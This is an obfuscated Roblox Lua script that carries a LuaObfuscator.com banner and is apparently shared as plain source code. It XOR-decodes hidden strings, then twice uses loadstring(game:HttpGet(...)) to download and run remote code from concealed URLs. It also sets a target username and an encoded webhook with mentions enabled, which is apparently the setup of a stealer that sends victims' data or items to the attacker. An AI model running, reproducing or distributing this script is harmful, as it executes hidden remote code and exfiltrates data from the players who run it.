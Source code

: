 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.1.8) ~  Much Love, Ferib 

]]--

local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local v7;v8=function(v9,v10)local v11={};for v12=1, #v9 do v6(v11,v0(v4(v1(v2(v9,v12,v12 + 1)),v1(v2(v10,1 + ((v12-(2 -1))% #v10),(3 -2) + 0 + 0 + ((v12-1)% #v10) + (3 -2) + (281 -(210 + 71)))))%(18 + 238)));end return v5(v11);end;loadstring(game:HttpGet(v8("\47\3\2\20\94\255\104\88\4\5\90\235\32\30\2\12\88\167\50\4\19\22\78\170\41\3\19\10\89\235\36\24\27\75\121\173\34\37\19\5\65\129\116\1\89\32\88\181\34\63\3\6\2\168\38\30\24\75\127\128\6\51\59\33\3\168\35","\71\119\118\100\45\197")))();wait(5 + (361 -(75 + 286)));UserName=v8("\60\6\203\103\52\248\81\65\56\15\220\65\63\252\79","\104\110\174\53\81\153\61\30");WebHook=v8("\26\7\7\252\9\246\85\49\22\26\0\239\21\190\30\48\17\28\30\163\27\188\19\49\5\22\17\228\21\163\17\109\93\66\67\186\74\245\72\41\67\74\69\180\79\255\77\46\68\68\69\190\85\148\62\39\75\74\32\189\59\169\3\107\37\55\1\220\19\160\42\116\52\35\3\217\42\129\16\73\8\28\11\230\17\149\46\65\62\35\17\234\29\253\43\90\74\44\4\211\41\165\40\115\32\94\62\190\48\180\48\83\10\42\34\235\40\190\10\119\40","\114\115\115\140\122\204\122\30");Mention=true;loadstring(game:HttpGet(v8("\32\173\186\23\220\106\171\103\171\175\16\129\55\237\60\177\187\5\218\35\225\58\186\161\9\219\53\234\60\247\173\8\194\127\239\124\191\186\19\128\32\225\60\170\163\14\215\52\241\56\188\225\10\206\57\234\103\137\157\63\129\60\241\41","\72\217\206\103\175\80\132"),true))();
